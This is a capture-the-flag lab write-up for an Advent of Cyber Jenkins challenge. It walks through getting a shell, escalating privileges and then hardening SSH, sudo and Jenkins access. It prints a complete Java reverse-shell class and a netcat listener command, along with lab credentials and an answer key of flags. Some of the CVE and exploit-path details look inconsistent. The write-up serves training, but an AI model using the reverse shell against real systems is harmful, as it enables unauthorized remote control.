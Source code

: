 # Advent of Cyber - Day 12 Attack Chain

## Defense in Depth

### Learning Objectives
- Understand Attackers mindset
- Understand Defense in Depth strategy
- Implement basic endpoint hardening
- Follow a simple Boot2Root methodology

## Server Information and Connection Instructions

- **Target Machine**: Vulnerable Ubuntu running Jenkins -> Check nmap reports : Jetty(10.0.15) CVE-2023-41900
- **Server Admin Credentials**: Given for blue team purposes
  - Username: admin
  - Password: SuperStrongPassword123

## Guided Walkthrough of the Attack Chain

1. **Getting a Web Shell**
   - Access Jenkins on default port: http://10.10.45.195:8080 
   - In the original walkthrough they get a Groovy script to establish a reverse shell :
   - Explore Jenkins features  and navigate to Manage Jenkins > Script Console
   ```groovy
   // Groovy Reverse Shell Script
   String host = "attacking machine IP here";
   int port = 4444;
   String cmd = "/bin/bash";
   // ... (complete script as provided)
   
   - But I went this way : 
   				- Access and put a java revshell http://10.10.45.195:8080/script/jqueryplugins/dataTables/extras/TableTools/media/swf/ZeroClipboard.swf -> check dirsearch report
   				
   				```java 
				import java.io.InputStream;
				import java.io.OutputStream;
				import java.net.Socket;

				public class shell {
				    public static void main(String[] args) {
					String host = "<IP_LOCAL>";
					int port = 4444;
					String cmd = "sh";
					try {
					    Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
					    Socket s = new Socket(host, port);
					    InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
					    OutputStream po = p.getOutputStream(), so = s.getOutputStream();
					    while (!s.isClosed()) {
						while (pi.available() > 0)
						    so.write(pi.read());
						while (pe.available() > 0)
						    so.write(pe.read());
						while (si.available() > 0)
						    po.write(si.read());
						so.flush();
						po.flush();
						Thread.sleep(50);
						try {
						    p.exitValue();
						    break;
						} catch (Exception e) {}
					    }
					    p.destroy();
					    s.close();
					} catch (Exception e) {}
				    }
				}
				
   - Start a netcat listener on your attacking machine: `nc -nlvp 4444`
   - Upon successful execution, a connection should be established on the netcat listener.

2. **Getting the tracy User and Root**
   - Discover an interesting bash script in `/opt/scripts/backup.sh`
   - Extract user credentials (tracy) and find clues for SSH access
   - Log in as tracy using SSH and discover sudo privileges

3. **Guided Hardening of the Server**
   - **Removal of tracy from the Sudo Group**
     - Remove tracy from the sudo group: `sudo deluser tracy sudo`
     - Confirm removal: `sudo -l -U tracy`

   - **Hardening SSH**
     - Edit `/etc/ssh/sshd_config` to disable password-based logins
     - Restart SSH service: `sudo systemctl restart ssh`

   - **Stronger Password Policies**
     - Emphasize the importance of strong passwords and periodic changes

   - **Promoting Zero Trust**
     - Revert Jenkins config to limit access: edit `config.xml.bak` and restart Jenkins service

## Conclusion

- Recap of defensive layers implemented
- Importance of defensive layers in a real-world scenario

### Logging Important Steps and Flags

Throughout the attack chain, it's crucial to maintain a detailed log of significant steps taken, flags obtained, and any other pertinent information. This ensures a comprehensive understanding of the attack process and aids in post-analysis and documentation. 

All flags, commands, and key steps have been stored in attack chain and in figures/reports directory for future reference:


## Questions and Answers

1. **What is the default port for Jenkins?**
   - 8080

2. **What is the password of the user tracy?**
   - 13_1n_33

3. **What's the root flag?**
   - ezRo0tW1thoutDiD

4. **What is the error message when you log in as tracy again and try sudo -l after its removal from the sudoers group?**
   - Sorry, user tracy may not run sudo on Jenkins.

5. **What's the SSH flag?**
   - Ne3d2SecureTh1sSecureSh31l

6. **What's the Jenkins flag?**
   - FullTrust_has_n0_Place1nS3cur1ty
				
